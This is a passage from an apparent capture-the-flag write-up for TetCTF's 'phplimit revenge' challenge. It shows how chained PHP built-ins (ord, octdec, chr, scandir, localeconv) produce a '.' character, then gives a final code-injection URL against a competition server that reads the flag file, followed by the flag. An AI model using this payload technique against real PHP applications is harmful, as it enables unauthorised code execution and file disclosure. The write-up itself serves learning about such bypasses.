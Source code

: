 ord\('8'\) = 56

![](.gitbook/assets/image%20%2819%29.png)

octdec\(56\) = 46

![](.gitbook/assets/image%20%2828%29.png)

chr\(46\) = '.' , so i got '.' huehuehuehue

![](.gitbook/assets/image%20%285%29.png)

```text
exp(1) = e^1 = 2.xxxx
ord(2) = 50
sqrt(50) = 7.xx 
ceil(7.x) = 8
ord('8') = 56
oct2dec(56) = 46

chr(46) = '.'
```

 From now on, it is similar to  phplimit revenge 1, just read flag, final payload :

{% code-tabs %}
{% code-tabs-item title="final-payload" %}
```text
view-source:http://45.76.181.81/?code=print(readfile(end(scandir(chr(octdec(ord(ceil(sqrt(ord(exp(chdir(next(scandir(current(localeconv())))))))))))))));
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="flag" %}
```text

<?php

$flower="TetCTF{__Hey___PhP___Master___}";

?>
```
{% endcode-tabs-item %}
{% endcode-tabs %}
